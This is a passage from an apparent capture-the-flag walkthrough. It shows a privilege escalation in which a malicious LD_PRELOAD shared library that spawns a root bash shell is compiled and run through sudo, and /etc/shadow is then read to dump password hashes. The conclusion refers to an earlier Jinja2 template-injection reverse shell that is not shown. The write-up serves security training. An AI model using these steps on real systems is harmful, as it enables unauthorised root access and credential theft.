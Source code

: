 ```bash
    unsetenv("LD_PRELOAD");
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
paul@preload:/tmp$ gcc -fPIC -shared -o root.so root.c -nostartfiles
```

Now that we have our fake dynamic library we can run any of the allowed commands as root using sudo and we will obtain a root shell.
```bash
paul@preload:/tmp$ sudo LD_PRELOAD=/tmp/root.so  /usr/bin/cat /tmp/root.c 
root@preload:/tmp# ls /root
20o7.txt
```

Great, we have obtained root access on the target. We can use this access to read the root flag. In a real-world assessment, we could attempt to crack users' passwords and if we were successful we could include it in our report. We can obtain these passwords by using our sudo rights to read the /etc/shadow file.
```bash
sudo /usr/bin/cat /etc/shadow
root:$y$j9T$m1D134z4UtKiulIBEBA5S1$NjPX1ymOm2EPlJfWdE.u5SUdvfM6/R7r8mHdY4Mbct0:19000:0:99999:7:::
daemon:*:18961:0:99999:7:::
<SNIP>
systemd-coredump:!*:18961::::::
paul:$y$j9T$YDzRSa1.vIn8q85CLan4g.$i.irTciZrOeLcwqQsxdlcxM3/gUSqAUYX8.Otiif34/:19000:0:99999:7:::
```

## Conclusion
Congratulations! In this walkthrough, you have exploited the Jinja2 template engine to obtain a reverse shell on the target. Finally, you exploited the user sudo rights to elevate your privileges as root. This machine was designed to show the importance of sanitising user input before passing it to a template engine. Thank you for following up on this walkthrough.
